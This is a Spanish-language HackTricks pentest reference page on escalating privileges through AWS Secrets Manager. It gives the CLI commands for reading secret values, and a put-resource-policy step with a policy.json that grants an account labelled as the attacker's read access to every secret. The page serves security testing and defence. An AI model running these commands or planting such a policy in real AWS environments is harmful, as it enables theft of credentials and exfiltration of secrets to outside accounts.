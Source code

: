 # AWS - Secrets Manager Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Secrets Manager

Para más información sobre Secrets Manager consulta:

{{#ref}}
../../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### `secretsmanager:GetSecretValue`

Un atacante con este permiso puede obtener el **valor guardado dentro de un secret** en AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Impacto potencial:** Acceder a datos altamente sensibles dentro del servicio AWS Secrets Manager.

> [!WARNING]
> Tenga en cuenta que incluso con el permiso `secretsmanager:BatchGetSecretValue`, un atacante también necesitaría `secretsmanager:GetSecretValue` para recuperar los secretos sensibles.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Con los permisos anteriores es posible **otorgar acceso a otros principals/accounts (incluso externos)** para acceder al **secret**. Tenga en cuenta que, para **leer secretos cifrados** con una clave KMS, el usuario también necesita tener **acceso a la clave KMS** (más info en la [KMS Enum page](../../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<attackers_account>:root"
},
"Action": "secretsmanager:GetSecretValue",
"Resource": "*"
}
]
}
```
{{#include ../../../../banners/hacktricks-training.md}}
